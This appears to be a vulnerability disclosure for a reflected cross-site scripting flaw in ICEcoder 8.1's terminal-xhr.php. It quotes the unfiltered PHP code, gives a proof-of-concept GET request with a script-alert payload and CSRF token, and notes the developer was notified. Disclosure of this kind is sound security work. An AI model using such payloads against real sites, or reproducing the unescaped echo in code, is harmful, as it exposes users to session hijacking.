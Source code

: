 A xss vulnerability in icecoder 8.1.

In file https://github.com/icecoder/ICEcoder/blob/master/lib/terminal-xhr.php

```php
...
if (false === proc_open_enabled()) {		// Line 46-52
    echo json_encode([
        "output" => returnHTMLPromptCommand($_REQUEST['command'] . "<br><br>Sorry but you can't use this terminal if your proc_open is disabled"),
        "user" => $user,
        "cwd" => $cwd
    ]);
    exit;
}
...
```

Source from `$_REQUEST['command']` and without any filtering, which resulting in XSS.

# Poc

`GET /lib/terminal-xhr.php?command=<script>alert(1)</script>&csrf=f64d3d95dc4af18766d285ff437e4d4f`

The value of csrf can access from index.php



# Manual verification

![alt text](1.png)


![alt text](2.png)


The developer has been informed of the report via email